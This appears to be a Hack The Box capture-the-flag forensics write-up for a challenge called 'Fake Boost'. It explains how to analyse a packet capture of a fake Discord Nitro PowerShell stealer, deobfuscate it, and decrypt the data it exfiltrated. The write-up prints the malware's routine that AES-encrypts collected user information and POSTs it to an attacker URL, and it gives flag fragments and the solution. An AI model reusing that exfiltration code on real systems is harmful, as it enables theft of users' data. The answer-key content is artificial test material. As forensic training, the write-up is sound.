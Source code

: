 ![img](assets/banner.png)

<img src='assets/htb.png' style='zoom: 80%;' align=left /> <font size='10'>Fake Boost</font>

2<sup>nd</sup> March 2024

Prepared By: `gordic`

Challenge Author(s): `gordic`

Difficulty: <font color='green'>Easy</font>

<br><br>

# Synopsis

- User needs to perform .pcap file analysis. Extract the obfuscated PowerShell script, deobfuscate it, and inside it, he should find the first part of the flag and parameters used for data encryption. They can use tools like CyberChef to decrypt data sent to the attacker's server and get the second part of the flag.

## Description

- In the shadow of The Fray, a new test called "Fake Boost" whispers promises of free Discord Nitro perks. It's a trap, set in a world where nothing comes without a cost. As factions clash and alliances shift, the truth behind Fake Boost could be the key to survival or downfall. Will your faction see through the deception? KORP™ challenges you to discern reality from illusion in this cunning trial.

## Skills Required

- Reading Powershell code/syntax
- Basic deobfuscation
- .pcap file forensics
- AES decryption with known parameters

## Skills Learned

- Analyzing network traffic to extract critical data.
- Deobfuscating PowerShell scripts to uncover hidden logic.
- Utilizing AES decryption techniques to reveal sensitive information.

# Enumeration

When examining the .pcapng file, users should focus on analyzing TCP traffic. Within TCP stream 3, they will encounter the contents of the discordnitro.ps1 malicious script being downloaded by the victim.

<img src='assets/writeup1.png' style='zoom: 30%;'/>

The PowerShell script requires deobfuscation. The value of the variable $jozeq3n must be reversed and then decoded from Base64 to reveal the malicious PowerShell script.

<img src='assets/writeup2.png' style='zoom: 30%;'/>

Within this script, users will discover the first part of the flag.
```powershell
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"
```

Besides the flag's first portion, the user must scrutinize the script to deduce that the server's response is encrypted using AES, with both the key and IV being known and utilized in the encryption process.
```powershell
function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}

$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$payload = $userInfos | ConvertTo-Json -Depth 10
$encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

try {
    $headers = @{
        'Content-Type' = 'text/plain'
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}
```

# Solution

In TCP stream 48, a user can uncover data transmitted from the victim's computer. By leveraging known AES parameters, they can decrypt this data to retrieve the second part of the flag, which resides within the email field.

```python
from Crypto.Cipher import AES
import base64

aes_key_base64 = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
aes_key = base64.b64decode(aes_key_base64)

def decrypt_string(encrypted_base64, key):
    full_data = base64.b64decode(encrypted_base64)
    
    iv = full_data[:AES.block_size]
    encrypted_message = full_data[AES.block_size:]
    
    cipher = AES.new(key, AES.MODE_CBC, iv)
    
    decrypted_bytes = cipher.decrypt(encrypted_message)
    
    pad = decrypted_bytes[-1]
    decrypted_bytes = decrypted_bytes[:-pad]
    
    return decrypted_bytes.decode('utf-8')

encrypted_base64 = ""
decrypted_text = decrypt_string(encrypted_base64, aes_key)
print("Decrypted text:", decrypted_text)

```

<img src='assets/writeup3.png' style='zoom: 70%;'/>
